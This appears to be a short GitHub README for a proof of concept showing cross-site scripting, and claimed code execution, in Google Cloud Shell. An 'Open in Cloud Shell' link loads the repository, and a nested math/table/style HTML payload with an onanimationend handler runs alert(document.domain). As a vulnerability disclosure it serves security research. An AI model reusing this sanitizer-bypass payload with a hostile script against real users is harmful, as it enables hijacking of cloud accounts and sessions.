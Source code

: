 # gcp_rce
Remote Code Execution on GCP through XSS - PoC

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?cloudshell_git_repo=https://github.com/Nowasky/gcp_rce.git&page=editor&open_in_editor=README.md)

<style>@keyframes x{}</style>
<math><mtext><table><mglyph><style><x style="animation-name:x" onanimationend="alert(document.domain)">

